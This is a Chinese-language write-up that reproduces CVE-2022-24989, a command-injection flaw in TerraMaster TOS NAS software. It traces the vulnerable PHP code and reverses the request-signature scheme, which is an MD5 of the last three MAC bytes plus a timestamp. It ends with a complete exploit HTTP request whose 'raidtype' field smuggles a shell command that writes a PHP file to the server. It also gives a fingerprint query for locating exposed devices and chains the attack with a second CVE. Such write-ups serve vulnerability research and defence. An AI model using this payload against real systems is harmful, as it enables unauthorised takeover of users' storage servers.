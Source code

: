 # TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.31 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647617923369-02e2a7e7-7705-4e12-a021-49ca44300125-20220319162830411.png)

我们查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647671945531-f5329a4c-12dd-4957-b438-3001e66f146b.png)

注意这一行代码并跟踪 `volume_make_from_disks` 方法

```php
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647672020849-c216e10d-2c24-4476-8bf9-ef0936ea39cb.png)

可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647672331076-640ed4a8-edbd-458b-a6c8-30e68b70ec64.png)

回到 `mobile.class.php` 文件开头的定义

```php
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647676041684-2edf4cd9-527a-4032-b467-181f50477dd7.png)

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```php
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647677029047-a3d7d35e-581c-46b3-af90-42299e45ec6f.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647676739320-049b5cab-1197-4c01-a34e-df83e789fb8f.png)

下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647676834698-5168b3ee-7126-499e-91c5-80b77d9cf0e2.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647676935156-1f51cd3b-0c11-4eaa-afcf-18851d93f0d3.png)

跟进方法 `get_mac_addr` 

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647676961925-d1d9b839-9594-45bf-ab6e-4dac2fd11300.png)

这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647677368472-e0c3db7d-e2a5-4b09-aa14-981b183931ef.png)

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647677479277-7433cd43-6bb0-4451-b9ef-bd27b78a585b.png)

回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```php
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```php
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 `CVE-2022-24990` 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

![image-20220320004751660](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220320004751660.png)

在发送请求包写入 php恶意文件

```php
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647678418656-fda11f34-0721-4123-999d-16492413a06d.png)

访问写入的文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647678464951-45d58af7-9f32-4f0b-9d63-2059eb36682c.png)